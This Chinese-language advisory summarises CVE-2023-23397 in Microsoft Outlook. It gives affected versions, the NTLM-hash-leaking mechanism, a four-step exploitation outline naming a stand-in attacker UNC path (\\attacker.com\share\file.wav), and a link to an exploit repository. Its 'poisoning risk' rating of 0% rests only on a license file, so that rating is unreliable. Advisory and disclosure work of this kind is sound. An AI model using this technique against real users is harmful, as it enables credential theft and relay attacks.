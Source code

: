 ## CVE-2023-23397-Microsoft Outlook 权限提升漏洞

**漏洞编号:** CVE-2023-23397

**漏洞类型:** 权限提升

**影响应用:** Microsoft Outlook

**危害等级:** 高危，可能导致NTLM Relay攻击

**影响版本:** 受影响版本包括Microsoft Outlook 2013 SP1, 2016, 2019, Office LTSC 2021, Microsoft 365 Apps for Enterprise

**利用条件:** 攻击者需要向受害者发送特制的邮件

**POC 可用性:** 是

**投毒风险:** 0%

## 详情

CVE-2023-23397 是一个 Microsoft Outlook 权限提升漏洞。攻击者可以利用此漏洞通过发送特制的邮件来窃取受害者的 Net-NTLM hash，从而冒充受害者身份并进行 NTLM 中继攻击。漏洞的根本原因是 Outlook 没有正确处理邮件中的特殊字段（主要是 `PidLidReminderFileParameter` 属性），导致 Outlook 尝试连接到攻击者控制的 UNC 路径，触发 NTLM 认证。由于 Outlook 在无需用户交互的情况下进行认证，因此攻击者可以在受害者不知情的情况下获取其 NTLM hash。

**利用方式：**

1.  攻击者创建一个包含恶意 `PidLidReminderFileParameter` 属性的特制邮件。该属性指向攻击者控制的 UNC 路径（例如 `\\attacker.com\share\file.wav`）。
2.  攻击者将该邮件发送给受害者。
3.  当 Outlook 处理该邮件时，它会尝试连接到攻击者控制的 UNC 路径，从而触发 NTLM 认证。
4.  攻击者捕获 NTLM hash 并使用它进行 NTLM 中继攻击。

**有效性：**

根据搜索结果，此漏洞已被广泛利用，并且 CISA 已将其添加到已知被利用的漏洞目录中。这表明存在可用的漏洞利用代码，并且该漏洞在野外被积极利用。

**投毒风险：**

提供的代码段是 Apache 2.0 许可协议，不是漏洞利用代码本身，因此无法从中分析是否存在投毒代码。考虑到这是一个许可协议，投毒的可能性极低。风险评估为0%。


**项目地址:** [BillSkiCO/CVE-2023-23397_EXPLOIT](https://github.com/BillSkiCO/CVE-2023-23397_EXPLOIT)

**漏洞详情:** [CVE-2023-23397](https://nvd.nist.gov/vuln/detail/CVE-2023-23397)